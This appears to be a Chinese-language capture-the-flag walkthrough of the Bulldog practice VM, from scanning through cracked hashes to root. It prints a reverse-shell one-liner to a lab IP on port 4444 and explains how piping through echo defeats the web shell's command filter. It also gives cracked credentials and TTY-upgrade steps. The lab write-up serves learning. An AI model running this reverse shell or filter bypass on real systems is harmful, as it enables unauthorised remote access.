








[TOC]

这个靶机说实话感觉价值不大，有点难想，不看别人还真拿不到root

## 网卡配置

- 长按shift+e

- 将ro改为rw single init=/bin/bash

- 进入单用户模式后，ip addr

- ```
  nano /etc/network/interfaces
  ```

- ```
  /etc/init.d/networking restart
  ```

  

- 这是有ip地址了，再重启靶机，不然扫不到端口

## 信息收集



分别进行tcp详细扫描和漏洞扫描

我最开始的想法是从23端口下手，虽然23默认是telnet协议，但是哲理指定为ssh协议，版本是OpenSSH 7.2p2，这个版本对应的有漏洞，但是尝试了很长时间没有结果，看了别人才知道不是这样解的

- 80端口和8080端口的内容都一样，通过枚举目录

都是这四个

- 默认页面没有信息
- /admin目录是一个登录wangye
- robots.txt没有信息
- /dev的源代码有

这些应该是一些用户邮箱和其对应的hash密码

通过在线破解hash网页，得到

```
nick：bulldog
sarah：bulldoglover
```

尝试ssh登录没用，尝试登录/admin页面成功，虽然都可以登录，但是都没有权限，也没有更多信息

- 我做到这里的时候已经卡死了，遗漏了一些关键信息
- 在/dev界面

这个Web-Shell是可以点进去的



我们可以使用页面上的命令

```
echo 'bash -i >& /dev/tcp/192.168.174.128/4444 0>&1' | bash
```

我们可以echo一级命令，原理是

1. `echo` 把字符串 `bash -i >& /dev/tcp/192.168.174.128/4444 0>&1` 打印出来。
2. 通过管道 `|` 传给 `bash` 执行。
3. 由于 `bash` **本身不是直接调用的**，而是通过 `echo` + 管道间接触发，这个 Web-Shell 的过滤机制（只检查第一级命令 `echo`，不检查管道后的 `bash`）就无法拦截。

- 这时再点击运行意思就是让靶机自己触发这个命令，也就完成了反弹shell

## 正确过程

接下来基本就不是我自己做的了，因为太偏了觉得

- /usr/sbin/getcap -r / 2>/dev/null

- cat /etc/crontab

  等等信息收集方式都没有特别的

  

- 通过python3 -c 'import pty;pty.spawn("/bin/bash")'
- sudo -l说需要tty，也就是终端
- 先export TERM=xterm
- ctrl+z挂到后台，在stty raw -echo； fg
- 但是看了sudo -l依旧没有信息

在/home目录下有bulldogadmin和django两个用户，django用户在刚才的WebShell中，所以可以不考虑，在bulldogadmin用户中有一个.hiddenadmindirectory目录，这个目录下有一个customPermissionApp文件，查看其内容发现是乱码

```
strings customPermissionApp
```



这个就是密码，我是真没想到，把H都去掉

```
sudo -i
```

直接提取，输入密码

成功拿到root

